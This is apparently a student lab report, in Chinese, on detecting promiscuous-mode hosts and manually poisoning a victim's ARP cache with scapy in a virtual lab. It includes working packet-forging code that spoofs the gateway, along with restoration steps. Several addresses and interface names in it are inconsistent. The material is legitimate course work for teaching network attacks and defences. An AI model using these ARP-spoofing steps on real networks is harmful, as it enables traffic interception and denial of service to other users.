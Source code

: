 # 💻实验四 网络监听

## 1.检测局域网中的异常终端

### 实验环境

#### 拓扑结构

<img src="img/Topology.png" alt="Topology" style="zoom:50%;" />

#### 网络配置及arp表

- **网关**

  `08:00:27:11:54:d2`/`enp0s9`

  `172.16.111.1`

  <img src="img/gateway%20address.png" alt="gateway address" style="zoom: 33%;" />

- **攻击者**

  `08:00:27:49:1b:10`/`eth0`

  `10.0.2.15`

<img src="img/attackip.png" alt="attackip" style="zoom:50%;" />

- **受害者**

`08:00:27:45:77:6f`/`eth0`

`192.168.56.108`

<img src="img/victim%20ip.png" alt="victim ip" style="zoom:50%;" />

## 实验准备

### 安装 scapy

在攻击者主机上提前安装好 [scapy](https://scapy.net/) 。

```shell
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

![complete translation](img/complete%20translation.png)

## 实验一：检测局域网中的异常终端

```shell
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth1
```

![Victim promiscuous mode](img/Victim%20promiscuous%20mode.png)

```shell
# 在攻击者主机上开启 scapy，不提升权限有些操作无法进行
sudo scapy
```

![start scapy](img/start%20scapy.png)

```shell
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("192.168.56.108")
```

![grab](img/grab.png)

```shell
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth1 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth1
```

![Turn on promiscuous](img/Turn%20on%20promiscuous.png)

```shell
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("192.168.56.108")
```

![grap1](img/grap1.png)

```shell
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```

查阅资料，promiscping 命令会发送 ARP who-has 请求。

> - 混杂模式 接收所有经过网卡的数据包，包括不是发给本机的包，即不验证MAC地址
> - 普通模式 网卡只接收发给本机的包

可以看出在混杂模式下，受害者主机才能收到这个数据包。

在受害者主机上开启Wireshark抓包，也验证了这个问题。发送的包并没有指定目的主机的MAC地址，所以普通模式下发送不会成功

![grap2](img/grap2.png)

<img src="img/wireshark_arp.png" alt="wireshark_arp" style="zoom:67%;" />

## 实验二：手工单步“毒化”目标主机的 ARP 缓存

### 获取当前局域网的网关 MAC 地址

```shell
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="192.168.0.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

![fake arp package](img/fake%20arp%20package.png)

```shell
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```

![arp broadcast request](img/arp%20broadcast%20request.png)

### 伪造网关的 ARP 响应包

```shell
# 准备发送给受害者主机
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
# 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1", pdst="192.168.56.108", hwdst="08:00:27:d4:65:43")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

![send fake arp](img/send%20fake%20arp.png)

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```shell
ip neigh
```

![Forged successfully](img/Forged%20successfully.png)

### 恢复受害者主机的 ARP 缓存记录

```shell
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:11:54:d2", pdst="192.168.56.108", hwdst="08:00:27:d4:65:43")
sendp(restorepkt1, count=100, inter=0.2)
```

![Fake gateway to send arp](img/Fake%20gateway%20to%20send%20arp.png)

此时在受害者主机上准备“刷新”网关 ARP 记录。

```shell
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

![Finish](img/Finish.png)

## 遇到的问题和解决方案

- **问题1:在给kali-attacker开启内部网络intnet1网卡后查看其ip地址表，内部网络对应的网卡仍然没有分配ip地址**

- 解决方法:

- ```shell
  sudo vim /etc/network/interfaces
  ```

<img src="img/question.png" alt="question" style="zoom:75%;" />

- **问题2:arpspoof命令语句使用无误，但无法正常污染靶机的arp表**
- 解决方法：打开虚拟机IP转发功能

```shell
echo 1 > /proc/sys/net/ipv4/ip_forward
```

- **问题3：伪造的网关ARP相应包发不出去**

  **解决方法：** 在构造ARP相应包时添加数据链路层Ether()

```shell
# 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1", pdst="192.168.56.108", hwdst="08:00:27:d4:65:43")
```

![send fake arp](img/send%20fake%20arp.png)

- **总结**
  - 通过`arpspoof`可以污染靶机的arp表，使其无法正常上网
  - arp缓存表定时更新，被污染的arp一会儿就变正常了，因此实验时是一边发送arp响应一边进行抓包
  - 如果要实现中间人攻击还需要将靶机的数据包进行转发

## 参考资料

- [2022-Fall Cybersecurity Courseware](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
- [wireshark promiscuous mode capture](https://www.wireshark.org/lists/ethereal-users/200302/msg00258.html)
- [kali-linux configures nat mode to connect to the network](https://blog.csdn.net/Ahuuua/article/details/108575907)



